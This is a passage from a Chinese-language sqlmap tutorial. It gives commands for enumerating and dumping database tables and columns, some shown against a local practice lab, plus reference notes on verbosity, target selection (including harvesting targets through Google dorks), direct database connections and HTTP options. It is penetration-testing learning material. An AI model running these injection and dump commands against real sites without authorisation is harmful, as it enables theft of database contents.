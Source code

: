 
4. 注出指定数据库指定表下所有列信息

`sqlmap -u "⽹址" -D 数据库名 -T 表名 --columns`

5. 注出所有指定列数据

`sqlmap -u "⽹址" -D 数据库名 -T 表名 -C 列名 --dump`

在任意环节使用--dumps，可以将所有数据注出，如指定数据库使用，注出所有数据库下的所有表的所有字段信息

`python3 .\sqlmap.py -u "http://127.0.0.1:8888/Less-2/?id=1" -D test --dump`

`--batch`命令可以自动跳过选择项，按默认选项注入

### 进阶命令

此部分参考 sqlmap 手册，在手册基础上进行了精炼

#### 输出信息的详细程度

```sh
-v	#共7个级别(0~6)，默认为1
#可以用 -vv 代替 -v 2，推荐使用这种方法
```

- **0**：只输出 Python 出错回溯信息，错误和关键信息
- **1**：增加输出普通信息和警告信息
- **2**：增加输出调试信息
- **3**：增加输出已注入的 payloads
- **4**：增加输出 HTTP 请求
- **5**：增加输出 HTTP 响应头
- **6**：增加输出 HTTP 响应内容

#### 目标

```sh
-d	#直连数据库，"mysql://root:root@192.168.0.8:3306/testdb"
-u URL
-l	#从Burp代理日志文件中解析目标地址
-m	#从文本文件中批量获取目标
-r	#从文件中读取 HTTP 请求
-g	#使用 Google dork 结果作为目标地址 python sqlmap.py -g "inurl:\".php?id=1\""
-c	#从 INI 配置文件中读取选项

--purge			#清除历史缓存
--flush-session	#清除上次扫描的缓存
```

注：`-d`是一个一个新的开关选项，它允许你通过 DBMS 守护进程监听的 TCP 端口直接连接目标数据库服务器，便于使用 SQL 注入技术对目标数据库进行攻击

#### 指定连接时信息

指定连接目标地址的方式

```sh
--method=METHOD		#强制使用提供的 HTTP 方法（例如：PUT）
--data=DATA			#使用 POST 发送数据串；--data="id=1&user=admin"
--param-del=";"		#使用参数分隔符，--data="id=1;user=admin"
--cookie=COOKIE		#指定 HTTP Cookie ，--cookie "id=11" --level 2
--drop-set-cookie	#忽略 HTTP 响应中的 Set-Cookie 参数
--user-agent=AGENT	#指定 HTTP User-Agent
--random-agent		#使用随机的 HTTP User-Agent，随机从 ./txt/user-agents.txt 选一个，不是每次请求换一个
--host				#手动设置 HTTP Host 请求头值，默认情况下，HTTP Host 请求头从提供的目标 URL 中解析
--referer=REFERER	#指定 HTTP Referer，默认情况下不会在 HTTP 请求中发送 HTTP Referer 请求头
-H HEADER			#设置额外的 HTTP 头参数（例如："X-Forwarded-For: 127.0.0.1"）
--headers=HEADERS	#设置额外的 HTTP 头参数,必须以换行符分隔（例如："Accept-Language: fr\nETag: 123"）
--auth-type，--auth-cred #选项用于指定后端 Web 服务器实现的 HTTP 协议认证和所有向目标程序发起 HTTP 请求的有效凭据，支持的三种 HTTP 协议认证机制是：Basic、Digest、NTLM，认证凭据的语法是 username:password。一个符合语法的例子：$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/basic/get_int.php?id\=1" --auth-type Basic --auth-cred "testuser:testpass"
--auth-file			#HTTP 协议私钥认证
```